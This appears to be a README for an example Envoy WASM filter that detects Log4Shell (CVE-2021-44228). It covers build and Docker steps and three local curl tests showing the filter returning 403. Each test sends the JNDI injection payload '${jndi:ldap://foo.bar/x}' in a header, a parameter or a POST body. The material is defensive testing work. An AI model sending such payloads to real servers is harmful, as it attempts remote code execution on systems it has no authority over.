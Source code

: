 This compiles an example filter for envoy WASM.

# build filter
build with
```
bazel build :filter.wasm
cp -f bazel-bin/filter.wasm .
```

Filter will be in:
```
./bazel-bin/filter.wasm
```

# build config descriptors

build descriptors with:
```
bazel build :filter_proto
```

Descriptors will be in:
```
./bazel-bin/filter_proto-descriptor-set.proto.bin
```

Note: 
on a mac, please run
```
xcode-select --install
```

and Potentially:
```
brew install python@2
```
as the python bundled with catalina may have issues with ssl certs.
# run filter in docker
```
docker run --rm -ti -p 10002:10002 -v "$(pwd):/mnt/data/" -v "$(pwd)/filter.wasm:/mnt/data/filter/filter.wasm" docker.io/envoyproxy/envoy:v1.20.0 --component-log-level "wasm:debug" -c /mnt/data/filter.yaml
```
#test
## Using a header
```
curl -v -H "x-my-header: \${jndi:ldap://foo.bar/x}" http://127.0.0.1:10002/headers
```
```
*   Trying 127.0.0.1:10002...
* Connected to 127.0.0.1 (127.0.0.1) port 10002 (#0)
> GET /headers HTTP/1.1
> Host: 127.0.0.1:10002
> User-Agent: curl/7.77.0
> Accept: */*
> x-my-header: ${jndi:ldap://foo.bar/x}
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 403 Forbidden
< content-length: 56
< content-type: text/plain
< date: Wed, 15 Dec 2021 22:02:27 GMT
< server: envoy
<
* Connection #0 to host 127.0.0.1 left intact
Potential Remote Command Execution: Log4j CVE-2021-44228%
```
## Using a param
```
curl -v -X GET  http://127.0.0.1:10002/headers?arg-1=\$\\{jndi:ldap://foo.bar/x\\}
```
```

Note: Unnecessary use of -X or --request, GET is already inferred.
*   Trying 127.0.0.1:10002...
* Connected to 127.0.0.1 (127.0.0.1) port 10002 (#0)
> GET /headers?arg-1=${jndi:ldap://foo.bar/x} HTTP/1.1
> Host: 127.0.0.1:10002
> User-Agent: curl/7.77.0
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 403 Forbidden
< content-length: 56
< content-type: text/plain
< date: Wed, 15 Dec 2021 22:03:59 GMT
< server: envoy
<
* Connection #0 to host 127.0.0.1 left intact
Potential Remote Command Execution: Log4j CVE-2021-44228%
```
## Using POST
```
curl -v -X POST -d "arg-1=\${jndi:ldap://foo.bar/x}" http://127.0.0.1:10002/headers
```
```
Note: Unnecessary use of -X or --request, POST is already inferred.
*   Trying 127.0.0.1:10002...
* Connected to 127.0.0.1 (127.0.0.1) port 10002 (#0)
> POST /headers HTTP/1.1
> Host: 127.0.0.1:10002
> User-Agent: curl/7.77.0
> Accept: */*
> Content-Length: 31
> Content-Type: application/x-www-form-urlencoded
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 403 Forbidden
< content-length: 56
< content-type: text/plain
< date: Wed, 15 Dec 2021 22:04:42 GMT
< server: envoy
< connection: close
<
* Closing connection 0
Potential Remote Command Execution: Log4j CVE-2021-44228%
```